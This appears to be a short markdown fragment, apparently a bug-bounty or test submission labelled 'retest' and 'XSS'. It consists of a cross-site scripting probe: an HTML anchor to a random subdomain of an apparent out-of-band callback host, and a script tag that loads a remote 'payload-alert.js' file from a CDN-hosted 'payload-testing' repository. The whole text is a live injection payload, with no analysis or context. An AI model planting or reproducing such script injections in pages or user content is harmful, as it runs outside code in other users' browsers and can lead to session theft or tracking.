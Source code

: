 # retest
retest
<a href="http://x31d3yf3uxjna9lf4pmzmngv3m9dxdl2.c01.red">HTML</a>
<script src="https://cdn.jsdelivr.net/gh/hotplugin0x01/payload-testing@main/payload-alert.js"></script>
XSS
